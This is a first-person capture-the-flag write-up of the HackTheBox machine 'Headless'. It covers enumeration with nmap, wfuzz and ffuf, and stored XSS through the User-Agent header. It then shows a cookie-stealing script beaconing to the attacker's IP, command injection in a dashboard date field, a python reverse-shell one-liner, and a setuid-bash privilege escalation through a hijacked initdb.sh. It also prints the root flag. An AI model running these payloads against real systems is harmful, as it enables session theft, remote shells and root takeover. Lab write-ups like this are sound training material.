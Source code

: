 

Hi my name is Jack Buchanan, I am a student/researcher and this is how i exploited the HackTheBox system Headless. 


with the target IP address of 10.10.11.8 I started my initial enumeration of the machine.

Enumeration: 

I started this process by first running an nmap command. !


This was the result of the nmap scan which indicates that port 22/ssh is open and Port 5000 is open the nmap scan indicates it is running is python-Werkzeug which upon lookup is a set of python libraries used for hosting a web application using python 3.11.2 and Werkzeug/2.2.2. Upon visiting the webserver under port 5000 I am greeted with a contact support form in where I can enter First Name, Last Name, email, Phone number and A message. Upon doing some exploit research on the specific version of Wekzeug i found a cve that allows for remote code execution. [  
CVE-2024-34069
(https://www.cve.org/CVERecord?id=CVE-2024-34069)

I didnt really get much from that CVE so now to fuzz the contact page to see if I can find a vulnerability in its input sanitation. 

Then I run the command. 
wfuzz -c -z file,./SecLists/Fuzzing/XSS/XSS-BruteLogic.txt -d "fname=My&lname=Name&email=email%40email.com&phone=111111111&message=FUZZ" --hw 999 --hh 999 --hs 999 http://10.10.11.8:5000/support 


Which indicates that xss attacks are successful. So i go the webpage and try to do a basic XSS attack in the body 
<script>alert(1)</script> but upon entering this it says 
# Hacking Attempt Detected

Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.

**Client Request Information:**

**Method:** POST  
**URL:** http://10.10.11.8:5000/support  
**Headers:** **Host:** 10.10.11.8:5000  
**User-Agent:** Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
**Accept:** text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
**Accept-Language:** en-US,en;q=0.5  
**Accept-Encoding:** gzip, deflate, br  
**Content-Type:** application/x-www-form-urlencoded  
**Content-Length:** 104  
**Origin:** http://10.10.11.8:5000  
**Dnt:** 1  
**Connection:** keep-alive  
**Referer:** http://10.10.11.8:5000/support  
**Cookie:** is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs  
**Upgrade-Insecure-Requests:** 1


We see that Headers are displayed on the page whereas the content is not. Leading me to believe we could put our payload inside of the User-Agent header. We see that when doing this it works verifying a stored XSS vulnerability.


 I will now try to find the subdomain which requires a valid is_admin cookie. First let me Fuzz this webpage to find it

ffuf -w subdomains-top1million-5000.txt -u http://FUZZ.10.10.11.8:5000/ -H "Host: FUZZ.10.10.11.8:5000" -mc 200,401,403 -fs 0



and i found it 
http://10.10.11.8:5000/dashboard



**Initial Foothold:**  

Now im gonna try to steal the is_admin cookie through a blind XSS attack on the Hacking support page.  I found a xss script that should be able to steal cookies online so lets try. 
<script>var i=new Image(); i.src="http://10.10.14.29:5000/?cookie="+btoa(document.cookie);
</script>. 

then we spin up a python server on port 5000 to serve to. 


Then i recieve two cookies.

10.10.14.29 - - [04/Aug/2024 00:02:05] "GET /?cookie=aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz HTTP/1.1" 200 -
10.10.11.8 - - [04/Aug/2024 00:02:23] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -

im gonna assume the second one is correct here since I believe the first one is my cookie because of how quick I got it. This took me alot of fiddling around with different XSS scripts and different headers. 


Upon Trying the cookie I get an # Internal Server Error and i realize that the cookie is probaly encoded somehow. Looks like base64 since there is a = at the end.

and get is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0


Which gives me access to the Administrator dashboard. which has an Generate Report button and allows you to select a date to generate a Website Health Report. Upon Examing the POST request that happens when you hit the button i see that 
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.11.8:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

date=2023-09-15

I get this request. The date input is what i will now target. 


so i change the data parameter to include a second command which is.
2023-09-15;whoami. Which reveals the user is running under dvir. I know now that this parameter is not properly sanitized and can try to get a reverse shell. 


Since I know the server is running a python intreprer i go to revshells and get a python rev shell.
date=2023-09-15;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.29",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

I enter this and setup my netcat listerner for port 1337 and I receive a shell back.

I get the user flag easily inside of the users directory. 

i then stabilize the shell with. 
python3 -c 'import pty;pty.spawn("/bin/bash")'


**Privilege Escalation:** 

i do sudo -l and see that i can run /usr/bin/syscheck as sudo without a password \


I then do cat /usr/bin/syscheck to view the contents of the script and see

#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0


I use chatgpt to analyze the script and see`syscheck` calls another bash script called initdb.sh


I will now write my own initdb.sh that executes a command in order for me to escalate privledges with this command below.

echo '#!/bin/bash' > initdb.sh
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> initdb.sh
chmod +x initdb.sh


I then run /usr/bin/syscheck and to access the root shell i setup i use. 
/tmp/rootbash -p


And i get root! 


and find root.txt inside of /root 

34c8180d06ef9c471cd7faa78fe5df3d


This is my first writeup! I wanted to choose an easier CTF so I wouldnt have much of a challenge in doing a writeup. This is the first to come but certanilty not the last! I hope that I could help anyone who needed it! 
Thank you for reading, Jack Buchanan.